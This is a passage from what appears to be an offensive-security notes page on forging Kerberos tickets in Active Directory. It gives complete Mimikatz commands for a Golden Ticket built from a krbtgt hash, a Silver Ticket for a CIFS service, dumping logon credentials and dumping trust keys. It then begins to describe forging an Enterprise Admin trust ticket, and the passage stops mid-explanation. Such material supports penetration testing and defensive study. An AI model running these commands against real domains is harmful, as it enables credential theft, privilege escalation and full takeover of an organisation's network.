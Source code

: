 * Domain Users SID: S-1-5-21&lt;DOMAINID&gt;-513
* Domain Admins SID: S-1-5-21&lt;DOMAINID&gt;-512
* Schema Admins SID: S-1-5-21&lt;DOMAINID&gt;-518
* Enterprise Admins SID: S-1-5-21&lt;DOMAINID&gt;-519  \(this is only effective when the forged ticket is created in the Forest root domain, though add using /sids parameter for AD forest admin rights\)
* Group Policy Creator Owners SID: S-1-5-21&lt;DOMAINID&gt;-520

```text
.\mimikatz "kerberos::golden /User:Administrator /domain:rd.lab.adsecurity.org /id:512 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

[Golden tickets across domains](https://adsecurity.org/?p=1640)

#### Silver Ticket

A Silver Ticket is a TGS \(similar to TGT in format\) using the target service account’s \(identified by SPN mapping\) NTLM password hash to encrypt and sign.

**Example Mimikatz Command to Create a Silver Ticket:**

The following Mimikatz command creates a Silver Ticket for the CIFS service on the server adsmswin2k8r2.lab.adsecurity.org. In order for this Silver Ticket to be successfully created, the AD computer account password hash for adsmswin2k8r2.lab.adsecurity.org needs to be discovered, either from an AD domain dump or by running Mimikatz on the local system as shown above \(_Mimikatz “privilege::debug” “sekurlsa::logonpasswords” exit_\). The NTLM password hash is used with the /rc4 paramteer. The service SPN type also needs to be identified in the /service parameter. Finally, the target computer’s fully-qualified domain name needs to be provided in the /target parameter. Don’t forget the domain SID in the /sid parameter.

```text
mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```

#### \*\*\*\*[**Trust Ticket**](https://adsecurity.org/?p=1588)\*\*\*\*

Once the Active Directory Trust password hash is determined, a trust ticket can be generated. The trust tickets are created using the shared password between 2 Domains that trust each other.  
_\*\*_[More background on Trust Tickets.](https://adsecurity.org/?p=1588)

**Dumping trust passwords \(trust keys\)**

```text
Mimikatz “privilege::debug” “lsadump::trust /patch” exit
```

**Create a forged trust ticket \(inter-realm TGT\) using Mimikatz**

Forge the trust ticket which states the ticket holder is an Enterprise Admin in the AD Forest \(leveraging SIDHistory, “sids”, across trusts in Mimikatz, my “contribution” to Mimikatz\). This enables full administrative access from a child domain to the parent domain. Note that this account doesn’t have to exist anywhere as it is effectively a Golden Ticket across the trust.
